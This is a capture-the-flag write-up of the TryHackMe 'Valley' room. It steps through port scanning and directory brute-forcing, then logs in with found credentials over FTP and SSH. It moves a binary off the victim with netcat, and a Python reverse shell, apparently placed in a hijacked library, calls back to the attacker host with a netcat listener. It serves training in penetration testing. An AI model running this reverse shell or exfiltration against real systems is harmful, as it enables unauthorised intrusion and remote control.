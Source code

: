 # Valley

**Room Link:** [https://tryhackme.com/room/valleype](https://tryhackme.com/room/valleype)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (344).png" alt=""><figcaption></figcaption></figure>



### Scan all ports

ftp found on port 37370

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (345).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (346).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (350).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
gobuster dir --url http://$VICTIM/static -w /usr/share/dirb/wordlists/big.txt -l
```

<figure><img src="../../.gitbook/assets/image (347).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ffuf -u http://$VICTIM/static/FUZZ -w /usr/share/dirb/wordlists/big.txt
```

<figure><img src="../../.gitbook/assets/image (348).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (349).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (351).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (352).png" alt=""><figcaption></figcaption></figure>



```
Username: siemDev
Password: california
```

<figure><img src="../../.gitbook/assets/image (353).png" alt=""><figcaption></figcaption></figure>



### TCP/37370 - FTP

**Kali**

```
ftp $VICTIM 37370
Username: siemDev
Password: california
```



<figure><img src="../../.gitbook/assets/image (354).png" alt=""><figcaption></figcaption></figure>



### TCP/22 - SSH

**Kali**

```
ssh valleyDev@$VICTIM
Password: ph0t0s1234
```

<figure><img src="../../.gitbook/assets/image (355).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
```

<figure><img src="../../.gitbook/assets/image (358).png" alt=""><figcaption></figcaption></figure>

## Lateral Movement

### Netcat

**Kali(receiving)**

```
nc -l -p 1234 > valleyAuthenticator
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < valleyAuthenticator
```



**Kali**

```
strings valleyAuthenticator > out.txt
```

<figure><img src="../../.gitbook/assets/image (357).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (356).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
Username: valley
Password: liberty123
```

<figure><img src="../../.gitbook/assets/image (359).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
cat /photos/script/photosEncrypt.py
```

<figure><img src="../../.gitbook/assets/image (360).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
locate base64
ls -lah /usr/lib/python3.8/base64.py
groups
```

<figure><img src="../../.gitbook/assets/image (361).png" alt=""><figcaption></figcaption></figure>

#### Python Reverse Shell

```
from os import dup2
from subprocess import run
import socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("$KALI",1337)) 
dup2(s.fileno(),0) 
dup2(s.fileno(),1) 
dup2(s.fileno(),2) 
run(["/bin/bash","-i"])
```

**Kali**

```
nc -lvnp 1337
```

<figure><img src="../../.gitbook/assets/image (362).png" alt=""><figcaption></figcaption></figure>









